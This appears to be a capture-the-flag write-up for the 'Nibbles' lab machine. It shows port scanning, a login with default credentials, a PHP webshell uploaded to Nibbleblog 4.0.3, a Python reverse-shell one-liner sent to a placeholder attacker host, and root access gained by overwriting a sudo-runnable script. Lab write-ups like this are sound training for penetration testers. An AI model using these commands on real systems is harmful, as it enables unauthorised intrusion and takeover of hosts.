






Nibbles WriteUp
Machine: Nibbles: Easy . Linux
Tags: #nibbleblog #arbitrary-file-upload #misconfiguration-abuse
Vulnerabilities:
Weak Credentials - Default Admin Dashboard Logins (admin:
🧰 Tools used: nmap ffuf curl netcat
We performed a scan of open TCP ports:
❯ sudo nmap --open -Pn -p- -sS -n -vvv <VICTIM_IP>
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63
We identified service versions and ran the default scripts against the discovered ports:
❯ nmap -sVC -p22,80 <VICTIM_IP> -Pn
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| 256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_ 256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
We inspected the webroot source by observing an exposed HTML comment:
❯ curl -s http://<VICTIM_IP>/
<b>Hello world!</b>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
We fuzzed internal directories under the identified /nibbleblog/ path:
❯ ffuf -u http://nibbles.htb/nibbleblog/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://nibbles.htb/nibbleblog/FUZZ
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
admin [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 185ms]
content [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 270ms]
languages [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 413ms]
plugins [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 3484ms]
themes [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 3485ms]
README [Status: 200, Size: 4628, Words: 589, Lines: 64, Duration: 189ms]
:: Progress: [29999/29999] :: Job [1/1] :: 170 req/sec :: Duration: [0:02:57] :: Errors: 1 ::


We extracted the user structure and validated the existence of the admin account by reading the exposed users.xml file:
http://nibbles.htb/nibbleblog/content/private/users.xml

We accessed the administration panel admin.php using default credentials (admin:<PASSWORD>):

We observed that the version is 4.0.3:
We know this version has an Arbitrary File Upload - CVE-2015-6967 vulnerability:

We uploaded a PHP webshell (image.php) by exploiting the file upload functionality in the active My image plugin:

We verified remote command execution by interacting with the uploaded file in the plugin directory:
❯ curl -s "http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php?cmd=id"
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
We started a netcat listener on port 4444:
We executed a Python reverse shell by sending URL-encoded parameters to our webshell:
❯ curl -s --data-urlencode "cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<ATTACKER_IP>\",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn(\"/bin/bash\")'" http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php
We received our reverse shell:
❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on <VICTIM_IP> 53978
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
We read the user.txt flag
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cat /home/nibbler/user.txt
<USER_FLAG>
We listed the sudo privileges assigned to the nibbler user:
nibbler@Nibbles:/var/www/html/nibbleblog/content/private$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User nibbler may run the following commands on Nibbles:
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
We unzipped the personal.zip archive located in the home directory to create the path required by the sudo rule:
nibbler@Nibbles:/home/nibbler$ ls -l
total 8
-r-------- 1 nibbler nibbler 1855 Dec 10 2017 personal.zip
-r-------- 1 nibbler nibbler 33 May 24 23:43 user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
Archive: personal.zip
creating: personal/
creating: personal/stuff/
inflating: personal/stuff/monitor.sh
We confirmed that we can modify the monitor.sh file
nibbler@Nibbles:/home/nibbler$ cd personal/stuff/
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 4015 May 8 2015 monitor.sh
We replaced the contents of monitor.sh with a shell script:
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '#!/bin/bash' > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '/bin/bash -i' >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
root@Nibbles:/home/nibbler/personal/stuff#
We executed the modified script with sudo to obtain administrator privileges:
We read the root.txt flag